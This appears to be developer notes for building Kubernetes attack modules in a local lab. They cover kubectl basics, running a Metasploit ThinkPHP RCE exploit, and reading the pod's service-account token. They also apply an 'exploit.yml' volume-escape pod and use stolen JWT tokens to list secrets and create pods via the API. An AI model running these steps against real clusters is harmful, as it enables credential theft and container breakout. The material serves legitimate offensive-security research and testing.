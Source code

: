 ## Basics

Create resources:

```
kubectl apply -f redis.yaml
kubectl apply -f secrets.yaml
kubectl apply -f thinkphp.yaml
```

Ensure pods are alive:

```
kubectl describe pods
```

Checking secrets:
```
kubectl describe secrets
```

Checking config maps which may also have sensitive information:

```
kubectl describe configmap
```

Dumping JSON:
```
kubectl describe configmap -o json
```

Interacting with a pod:

```
kubectl exec -it redis -- /bin/sh
```

Getting a JWT token for the kube-system namespace:

```
kubectl -n kube-system describe secret default

# For use in CURLs
jwt_token=$(kubectl get secret -n kube-system $(kubectl -n kube-system get serviceaccount default -o jsonpath="{.secrets[0].name}") -o jsonpath="{.data.token}" | base64 --decode)

echo $jwt_token
```

## Thinkphp session

Ensure the pod has been created and alive:
```
kubectl apply -f thinkphp.yaml
kubectl get deployments thinkphp
```

Access the pod from localhost, in lieu of setting up ingress properly:

```
kubectl port-forward thinkphp-67f7c88cc9-djg6q 8000:80
```

Run the Metasploit exploit module:

```
use exploit/unix/webapp/thinkphp_rce
run http://localhost:8000
```

Acquire a shell, and verify the service token is in the container:
```
cat /run/secrets/kubernetes.io/serviceaccount/token
```

## Testing volume exploit

```
kubectl delete pod generate-this-later-pod 2>/dev/null; kubectl apply -f ./exploit.yml
```

Directly interacting with it:
```
kubectl exec -it generate-this-later-pod -- /bin/sh
```

## API

The OpenAPI approach looks interesting, as we can generate clients in the same way as Swagger:

https://kubernetes.io/blog/2016/12/kubernetes-supports-openapi/

Generated:

https://v1-18.docs.kubernetes.io/docs/reference/generated/kubernetes-api/v1.18/

Client examples:
https://github.com/kubernetes-client

Note that the namespace would be in the URI `api/v1/namespaces/{namespace_name}/`
You can also retrieve the list of namespaces locally with:

```
kubectl get namespaces
kubectl get namespaces -o json
```

### JWT_TOKEN

Note that the curl examples assume the `jwt_token` is set.

If you're on your host with `kubectl` available:

```
jwt_token=$(kubectl get secret -n kube-system $(kubectl -n kube-system get serviceaccount default -o jsonpath="{.secrets[0].name}") -o jsonpath="{.data.token}" | base64 --decode)

echo $jwt_token
```

If you're in a container already:

```
jwt_token=$(cat /run/secrets/kubernetes.io/serviceaccount/token)
echo $jwt_token
```

### Get namespaces

```
curl --insecure --request GET \
--url 'https://kubernetes.docker.internal:6443/api/v1/namespaces' \
--header "Authorization: Bearer ${jwt_token}"
```

### Get PODs

```
curl --insecure --request GET \
  --url 'https://kubernetes.docker.internal:6443/api/v1/namespaces/default/pods' \
  --header "Authorization: Bearer ${jwt_token}"
```

### Get Secrets

```
curl --insecure --request GET \
  --url 'https://kubernetes.docker.internal:6443/api/v1/namespaces/default/secrets' \
  --header "Authorization: Bearer ${jwt_token}"
```

### Get Configmaps

```
curl --insecure --request GET \
  --url 'https://kubernetes.docker.internal:6443/api/v1/namespaces/default/configmaps' \
  --header "Authorization: Bearer ${jwt_token}"
```

### Create a pod

```
yq -o json e ./exploit.yml |
  curl --insecure -v --request POST \
    --url 'https://kubernetes.docker.internal:6443/api/v1/namespaces/default/pods' \
    --header "Authorization: Bearer ${jwt_token}" \
    --header 'Content-Type: application/json' \
    --data @-
```

### Management

Clean up:

```
kubectl delete deployments,pods,services --all
```

Delete all CrashLooping pods:

```
kubectl delete pod `kubectl get pods | awk '$3 == "CrashLoopBackOff" {print $1}'`
```

Running the Kubernetes [Dashboard UI](https://kubernetes.io/docs/tasks/access-application-cluster/web-ui-dashboard/):

```
kubectl apply -f https://raw.githubusercontent.com/kubernetes/dashboard/v2.3.1/aio/deploy/recommended.yaml

kubectl proxy
```

Now visit:

http://localhost:8001/api/v1/namespaces/kubernetes-dashboard/services/https:kubernetes-dashboard:/proxy/#/login

To login, use the `jwt_token` mentioned above

### Ideas

Spencer
- Confirm Comm semantics for send_cgi
- Decide on how we want to get additional sessions, i.e. docker pod cmd, exec + mettle, or exec + stream
- If we have a long lived attacker pod, we could continually exec new payloads against it. We'd need to keep track of it for reuse and cleanup.
        - Pod exec example: https://github.com/kubernetes-client/python/blob/master/examples/pod_exec.py#L84-L90
        - https://github.com/kubernetes-client/python-base/blob/master/stream/stream.py#L34

Alan
- Update sysinfo to detect if you're in docker/kubernetes
- Pull out the secrets information / env / ConfigMaps
- Get access to a real cluster
